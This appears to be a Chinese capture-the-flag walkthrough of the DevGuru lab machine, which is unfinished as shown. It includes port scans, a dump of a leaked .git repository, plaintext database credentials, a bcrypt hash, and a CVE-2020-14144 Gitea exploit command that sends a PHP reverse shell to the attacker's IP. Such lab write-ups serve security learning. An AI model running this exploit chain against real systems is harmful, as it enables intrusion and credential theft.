## 端口扫描

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 -p- 172.20.10.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-23 14:25 CST
Nmap scan report for 172.20.10.2
Host is up (0.094s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8585/tcp open  unknown
MAC Address: 08:00:27:64:00:D7 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 9.70 seconds

┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p22,80,8585 172.20.10.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-23 14:26 CST
Nmap scan report for 172.20.10.2
Host is up (0.00091s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2a:46:e8:2b:01:ff:57:58:7a:5f:25:a4:d6:f2:89:8e (RSA)
|   256 08:79:93:9c:e3:b4:a4:be:80:ad:61:9d:d3:88:d2:84 (ECDSA)
|_  256 9c:f9:88:d4:33:77:06:4e:d9:7c:39:17:3e:07:9c:bd (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-git:
|   172.20.10.2:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: first commit
|     Remotes:
|       http://devguru.local:8585/frank/devguru-website.git
|_    Project type: PHP application (guessed from .gitignore)
|_http-title: Corp - DevGuru
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: DevGuru
8585/tcp open  unknown
| fingerprint-strings:
|   GenericLines:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=e5e94a27f64083d1; Path=/; HttpOnly
|     Set-Cookie: _csrf=NeVgjbfczrpJAQZ1XpxNzLZCqw86MTcxMTE3NTIyMTM0NjY4NTA2Mg; Path=/; Expires=Sun, 24 Mar 2024 06:27:01 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 23 Mar 2024 06:27:01 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title> Gitea: Git with a cup of tea </title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <meta name="theme-color" content="#6cc644">
|     <meta name="author" content="Gitea - Git with a cup of tea" />
|     <meta name="description" content="Gitea (Git with a cup of tea) is a painless
|   HTTPOptions:
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=f2cbbd644866c9ad; Path=/; HttpOnly
|     Set-Cookie: _csrf=S87wZnT04WcXgxr2OLKPNno9w1Q6MTcxMTE3NTIyMTM3NDgxNjU5Mw; Path=/; Expires=Sun, 24 Mar 2024 06:27:01 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 23 Mar 2024 06:27:01 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Page Not Found - Gitea: Git with a cup of tea </title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <meta name="theme-color" content="#6cc644">
|     <meta name="author" content="Gitea - Git with a cup of tea" />
|_    <meta name="description" content="Gitea (Git with a c
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8585-TCP:V=7.94SVN%I=7%D=3/23%Time=65FE7635%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Ba
SF:d\x20Request")%r(GetRequest,1000,"HTTP/1\.0\x20200\x20OK\r\nContent-Typ
SF:e:\x20text/html;\x20charset=UTF-8\r\nSet-Cookie:\x20lang=en-US;\x20Path
SF:=/;\x20Max-Age=2147483647\r\nSet-Cookie:\x20i_like_gitea=e5e94a27f64083
SF:d1;\x20Path=/;\x20HttpOnly\r\nSet-Cookie:\x20_csrf=NeVgjbfczrpJAQZ1XpxN
SF:zLZCqw86MTcxMTE3NTIyMTM0NjY4NTA2Mg;\x20Path=/;\x20Expires=Sun,\x2024\x2
SF:0Mar\x202024\x2006:27:01\x20GMT;\x20HttpOnly\r\nX-Frame-Options:\x20SAM
SF:EORIGIN\r\nDate:\x20Sat,\x2023\x20Mar\x202024\x2006:27:01\x20GMT\r\n\r\
SF:n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"theme-\">\n<hea
SF:d\x20data-suburl=\"\">\n\t<meta\x20charset=\"utf-8\">\n\t<meta\x20name=
SF:\"viewport\"\x20content=\"width=device-width,\x20initial-scale=1\">\n\t
SF:<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\t<tit
SF:le>\x20Gitea:\x20Git\x20with\x20a\x20cup\x20of\x20tea\x20</title>\n\t<l
SF:ink\x20rel=\"manifest\"\x20href=\"/manifest\.json\"\x20crossorigin=\"us
SF:e-credentials\">\n\t<meta\x20name=\"theme-color\"\x20content=\"#6cc644\
SF:">\n\t<meta\x20name=\"author\"\x20content=\"Gitea\x20-\x20Git\x20with\x
SF:20a\x20cup\x20of\x20tea\"\x20/>\n\t<meta\x20name=\"description\"\x20con
SF:tent=\"Gitea\x20\(Git\x20with\x20a\x20cup\x20of\x20tea\)\x20is\x20a\x20
SF:painless")%r(HTTPOptions,1000,"HTTP/1\.0\x20404\x20Not\x20Found\r\nCont
SF:ent-Type:\x20text/html;\x20charset=UTF-8\r\nSet-Cookie:\x20lang=en-US;\
SF:x20Path=/;\x20Max-Age=2147483647\r\nSet-Cookie:\x20i_like_gitea=f2cbbd6
SF:44866c9ad;\x20Path=/;\x20HttpOnly\r\nSet-Cookie:\x20_csrf=S87wZnT04WcXg
SF:xr2OLKPNno9w1Q6MTcxMTE3NTIyMTM3NDgxNjU5Mw;\x20Path=/;\x20Expires=Sun,\x
SF:2024\x20Mar\x202024\x2006:27:01\x20GMT;\x20HttpOnly\r\nX-Frame-Options:
SF:\x20SAMEORIGIN\r\nDate:\x20Sat,\x2023\x20Mar\x202024\x2006:27:01\x20GMT
SF:\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"theme-\"
SF:>\n<head\x20data-suburl=\"\">\n\t<meta\x20charset=\"utf-8\">\n\t<meta\x
SF:20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=1
SF:\">\n\t<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\
SF:n\t<title>Page\x20Not\x20Found\x20-\x20\x20Gitea:\x20Git\x20with\x20a\x
SF:20cup\x20of\x20tea\x20</title>\n\t<link\x20rel=\"manifest\"\x20href=\"/
SF:manifest\.json\"\x20crossorigin=\"use-credentials\">\n\t<meta\x20name=\
SF:"theme-color\"\x20content=\"#6cc644\">\n\t<meta\x20name=\"author\"\x20c
SF:ontent=\"Gitea\x20-\x20Git\x20with\x20a\x20cup\x20of\x20tea\"\x20/>\n\t
SF:<meta\x20name=\"description\"\x20content=\"Gitea\x20\(Git\x20with\x20a\
SF:x20c");
MAC Address: 08:00:27:64:00:D7 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP
Running: Linux 2.4.X|2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22
OS details: Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
看到这里找到了.git的泄露

## web渗透

将源代码全部弄下来
dumpall -u 172.20.10.2:80/.git/
 
得到全部源码

database.php得到数据库信息

就一个用户的密码啊
october/SQ66EBYx4GT3byXH
那先去看看能不能利用这个密码，不然就要回来继续看源码了



看到8585端口运行的cms及版本号

搜一下居然有rce

要用密码，那就用上面的用户和密码试一下？
```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ python 49571.py -t http://172.20.10.2:8585 -u october -p SQ66EBYx4GT3byXH -I 172.20.10.13 -P 1234 -f /usr/share/webshells/php/php-reverse-shell.php
    _____ _ _______
   / ____(_)__   __|             CVE-2020-14144
  | |  __ _   | | ___  __ _
  | | |_ | |  | |/ _ \/ _` |     Authenticated Remote Code Execution
  | |__| | |  | |  __/ (_| |
   \_____|_|  |_|\___|\__,_|     GiTea versions >= 1.1.0 to <= 1.12.5

[+] Starting exploit ...
[!] Could not login with these credentials.
[+] Exploit completed !
```

想直接ssh，但是也是失败了，要用密钥连

目录扫描到这一个页面，也是登录失败了
此时已经神志不清了，将源码放到vscode看看

adminer.php的web还没访问过，访问一下是一个数据库管理系统

用之前的密码登录
终于有成功登陆的了

frank/$2y$10$bp5wBfbAN6lMYT27pJMomOGutDF2RKZKYZITAupZ3x8eAaYgN6EKK	

这密码爆破不了，hashcat跑了一会儿跑不出来
直接插入数据吧
